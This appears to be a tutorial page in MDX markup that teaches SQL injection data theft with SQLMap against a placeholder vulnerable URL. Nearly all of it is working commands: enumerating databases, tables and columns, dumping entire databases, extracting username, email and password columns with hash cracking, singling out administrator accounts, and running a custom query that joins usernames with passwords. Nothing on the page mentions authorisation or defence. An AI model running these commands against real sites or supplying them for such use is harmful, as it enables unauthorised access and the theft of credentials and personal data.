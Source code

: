```yaml
---
title: Data Extraction
description: Learn how to extract data from databases using SQLMap
---
```



# Data Extraction with SQLMap

SQLMap provides powerful capabilities for extracting data from vulnerable databases. This section covers various techniques for database enumeration and data extraction.

<Tabs defaultValue="enumeration" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="enumeration">Database Enumeration</TabsTrigger>
    <TabsTrigger value="tables">Table Extraction</TabsTrigger>
    <TabsTrigger value="dump">Data Dumping</TabsTrigger>
  </TabsList>
  <TabsContent value="enumeration">
    ## Database Enumeration
    
    Before extracting specific data, you need to gather information about the database structure:
    
    ### Identifying the Database Management System
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --banner
    ```
    
    This command retrieves the database banner, which typically includes version information.
    
    ### Listing Available Databases
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    ```
    
    This command lists all databases accessible to the current user.
    
    ### Current Database Information
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --current-db
    ```
    
    This command identifies the database currently in use by the web application.
    
  </TabsContent>
  <TabsContent value="tables">
    ## Table Extraction
    
    Once you've identified the target database, you can extract information about its tables:
    
    ### Listing Tables in a Database
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name --tables
    ```
    
    Replace `database_name` with the name of the database you want to explore.
    
    ### Listing Columns in a Table
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name --columns
    ```
    
    This command lists all columns in the specified table, which helps you identify which columns contain sensitive information.
    
  </TabsContent>
  <TabsContent value="dump">
    ## Data Dumping
    
    After identifying the tables and columns of interest, you can extract the actual data:
    
    ### Dumping Specific Columns
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name -C "column1,column2" --dump
    ```
    
    This command extracts data from the specified columns.
    
    ### Dumping an Entire Table
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name --dump
    ```
    
    This command extracts all data from the specified table.
    
    ### Dumping an Entire Database
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name --dump
    ```
    
  </TabsContent>
</Tabs>

## Step-by-Step Data Extraction Process

<Stepper>
  <StepperItem title="Identify the Injection Point">
    First, confirm that the target is vulnerable to SQL injection:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --batch
    ```
    
    SQLMap will automatically test for vulnerabilities and report any findings.
  </StepperItem>
  <StepperItem title="Enumerate Database Information">
    Once you've confirmed a vulnerability, gather information about the database:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --banner --current-user --current-db
    ```
    
    This command retrieves the database banner, current user, and current database name.
  </StepperItem>
  <StepperItem title="List Available Databases">
    Identify all accessible databases:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    ```
    
    Review the list and identify databases that might contain valuable information.
  </StepperItem>
  <StepperItem title="Explore Database Structure">
    For each database of interest, list its tables:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D target_db --tables
    ```
    
    Look for tables with names suggesting they contain user data or other sensitive information.
  </StepperItem>
  <StepperItem title="Extract Sensitive Data">
    Once you've identified tables of interest, extract their data:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D target_db -T users -C "username,email,password" --dump
    ```
    
    SQLMap will extract the specified columns and attempt to crack any password hashes it finds.
  </StepperItem>
</Stepper>

## Common Database Structures

Different web applications organize their data in various ways. Here are some common database structures you might encounter:

<div className="grid grid-cols-1 md:grid-cols-2 gap-4 mt-6">
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">E-commerce Platform</h3>
    <FileSystem>
      <FileSystemRoot name="shop_db" />
      <FileSystemItem name="users" type="directory" level="1" />
      <FileSystemItem name="id" type="file" level="2" />
      <FileSystemItem name="username" type="file" level="2" />
      <FileSystemItem name="password" type="file" level="2" />
      <FileSystemItem name="email" type="file" level="2" />
      <FileSystemItem name="products" type="directory" level="1" />
      <FileSystemItem name="id" type="file" level="2" />
      <FileSystemItem name="name" type="file" level="2" />
      <FileSystemItem name="price" type="file" level="2" />
      <FileSystemItem name="description" type="file" level="2" />
      <FileSystemItem name="orders" type="directory" level="1" isLast="true" />
      <FileSystemItem name="id" type="file" level="2" />
      <FileSystemItem name="user_id" type="file" level="2" />
      <FileSystemItem name="product_id" type="file" level="2" />
      <FileSystemItem name="quantity" type="file" level="2" />
      <FileSystemItem name="total" type="file" level="2" isLast="true" />
    </FileSystem>
  </div>
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Content Management System</h3>
    <FileSystem>
      <FileSystemRoot name="cms_db" />
      <FileSystemItem name="users" type="directory" level="1" />
      <FileSystemItem name="id" type="file" level="2" />
      <FileSystemItem name="username" type="file" level="2" />
      <FileSystemItem name="password" type="file" level="2" />
      <FileSystemItem name="email" type="file" level="2" />
      <FileSystemItem name="role" type="file" level="2" isLast="true" />
      <FileSystemItem name="posts" type="directory" level="1" />
      <FileSystemItem name="id" type="file" level="2" />
      <FileSystemItem name="title" type="file" level="2" />
      <FileSystemItem name="content" type="file" level="2" />
      <FileSystemItem name="author_id" type="file" level="2" />
      <FileSystemItem name="date" type="file" level="2" isLast="true" />
      <FileSystemItem name="settings" type="directory" level="1" isLast="true" />
      <FileSystemItem name="site_name" type="file" level="2" />
      <FileSystemItem name="theme" type="file" level="2" />
      <FileSystemItem name="api_keys" type="file" level="2" isLast="true" />
    </FileSystem>
  </div>
</div>


## Advanced Data Extraction Techniques

For more complex scenarios, SQLMap offers advanced options:

### Conditional Data Extraction

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T users --dump --where "admin=1"
```

This command extracts only records where the "admin" column has a value of 1, which is useful for targeting administrator accounts.

### Custom SQL Queries

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --sql-query "SELECT concat(username,':',password) FROM users WHERE admin=1"
```

This command executes a custom SQL query, allowing for more complex data extraction scenarios.

